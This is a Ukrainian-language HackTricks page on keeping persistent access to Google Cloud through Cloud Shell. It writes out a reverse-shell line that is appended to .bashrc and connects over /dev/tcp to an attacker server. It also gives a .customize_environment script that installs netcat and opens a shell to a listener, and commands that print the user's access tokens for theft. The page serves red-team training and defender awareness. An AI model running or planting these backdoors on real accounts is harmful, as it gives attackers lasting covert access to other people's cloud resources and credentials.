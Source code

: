 # GCP - Постійність Cloud Shell

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* репозиторії GitHub.

</details>

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Постійний Задній Вхід

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка для ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких пов'язаних витрат.

Ви можете отримати доступ до Cloud Shell від **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

Ця консоль має деякі цікаві можливості для атакування:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю аутентифікованого екземпляра Cloud Shell (Службові облікові записи можуть, навіть бути власниками організації).
2. Зазначений екземпляр буде **зберігати свій домашній каталог принаймні 120 днів**, якщо не відбувається жодної діяльності.
3. Немає **можливостей для організації моніторити** діяльність цього екземпляра.

Це в основному означає, що атакувальник може розмістити задній вхід в домашньому каталозі користувача, і поки користувач підключається до GC Shell принаймні раз на 120 днів, задній вхід залишиться і атакувальник отримає оболонку кожного разу, коли вона запускається, просто виконавши:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

У домашній папці є ще один файл під назвою **`.customize_environment`**, якщо він існує, він буде **виконуватися кожного разу**, коли користувач отримує доступ до **хмарного шелу** (як у попередній техніці). Просто вставте попередню задню двері або одну, подібну до наступної, щоб зберігати стійкість так довго, як користувач **часто** використовує хмарний шел:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зауважити, що **перший раз, коли виконується дія, яка вимагає автентифікації**, у браузері користувача з'являється вікно авторизації. Це вікно повинно бути прийняте перед тим, як команда може бути виконана. Якщо з'явиться неочікуване вікно, це може викликати підозру та потенційно підірвати використану методику постійства.
{% endhint %}

Це вікно з'являється при виконанні команди `gcloud projects list` з оболонки хмари (як зловмисник) під час перегляду сеансу користувача у браузері:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється з'єднання SSH

Основні використовуються ці 3 виклики API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (змусить вас додати свій публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (змусить вас запустити екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомить вам IP-адресу хмари Google Shell)

Але ви можете знайти додаткову інформацію за посиланням [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
